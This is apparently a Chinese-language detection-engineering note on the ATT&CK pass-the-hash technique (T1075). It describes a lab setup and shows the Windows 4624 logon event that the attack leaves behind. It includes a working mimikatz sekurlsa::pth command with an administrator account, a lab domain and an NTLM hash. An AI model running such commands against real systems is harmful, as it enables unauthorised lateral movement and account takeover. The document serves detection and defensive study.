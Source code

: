 # T1075-windows-哈希传递

## 来自ATT&CK的描述

认证哈希传递（PtH）是一种不访问用户明文密码而对用户进行身份认证的方法。这种方法绕过需要明文密码的步骤，直接用密码哈希来进行身份认证。在使用PtH技术时，可通过凭据访问技术获得正在使用账号的有效密码哈希。PtH使用捕捉的哈希来认证该用户身份。一旦身份认证通过，PtH可用于在本地或远程系统上执行操作。

已安装KB2871997补丁的Windows 7及更高版本需要有效域用户凭据或RID 500管理员哈希。

## 测试案例

passing the hash，中文一般翻译为hash传递攻击，在windows系统中，系统通常不会存储用户登录密码，而是存储密码的哈希值，在我们远程登录系统的时候，实际上向远程传递的就是密码的hash值。当攻击者获取了存储在计算机上的用户名和密码的hash值的时候，他虽然不知道密码值，但是仍然可以通过直接连接远程主机，通过传送密码的hash值来达到登录的目的。

## 检测日志

windows 安全日志（靶机、攻击机）

## 测试复现

### 基础环境

DC：windows server 2008 R2

PC1：windows server 2008 R2 （目标主机）

PC2：win 7 （攻击机）

Mimikatz （测试工具）

### 测试过程

1.获取相关账户的NTLM哈希，具体过程不再演示，mimikatz即可

2.利用mimikatz进行PTH
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:xiaomi.org /ntlm:762c6fa6a9adb2f5ff215484bd8296b7"

## 测试留痕

windows安全日志

### 目标主机-PC1-PTH成功

```log
Event-ID: 4624

已成功登录帐户。

使用者:
安全 ID: NULL SID
帐户名: -
帐户域: -
登录 ID: 0x0

登录类型: 3

新登录:
安全 ID: S-1-5-21-3576461989-1381017913-248049510-500
帐户名: Administrator
帐户域: XIAOMI
登录 ID: 0xF86B9
登录 GUID: {00000000-0000-0000-0000-000000000000}

```